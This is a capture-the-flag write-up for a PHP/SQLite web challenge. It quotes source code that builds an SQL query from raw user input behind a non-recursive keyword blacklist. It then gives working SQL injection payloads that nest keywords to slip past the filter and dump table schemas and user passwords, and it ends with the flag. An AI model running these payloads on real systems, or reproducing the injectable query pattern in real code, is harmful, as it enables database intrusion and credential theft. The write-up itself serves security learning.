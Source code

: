 # Task
![image](https://user-images.githubusercontent.com/44528004/132695985-bdd36389-247f-4795-b05e-527c431abfea.png)

# Solution
The source of code of this challenge is:
```php
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>
```

Here, the `implode()` function joins words from the array with a `|` as the separator. Next, the `preg_replace()` performs **find and replace** operation.
> The `/` and `/i` that wrap around the `$searchWords` is the syntax to declare a regular expression pattern. 

From these information, this application removes filtered words, namely `union`, `order`, `select`, `from`, `group`, `by`.
> Or we can see this on the challenge description.

## Exploitation
As we know that `union`, `select`, etc. will be replaced by an empty string `''`, so the payload `0 UNION SELECT 1, 1` will become `0  1, 1`. However, this function does not perform **recursive match and replace** which means `UNIUNIONON` will become `UNION`.  

What this in mind, we can craft a payload as follows:
```sql
0 UNIUNIONON SESELECTLECT name, sql FRFROMOM sqlite_master WHERE type='table'
```

This results in  

![image](https://user-images.githubusercontent.com/44528004/132819301-a05b1ec5-be10-4fff-969f-bf489e303cb7.png)  

Then, we craft another payload to extract `username` and `password`:
```sql
0 UNIUNIONON SESELECTLECT username, password FRFROMOM users
```

The result is  

![image](https://user-images.githubusercontent.com/44528004/132819409-0ddf56ac-88c5-424e-86d7-ced858ab4617.png)
> Flag: `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`
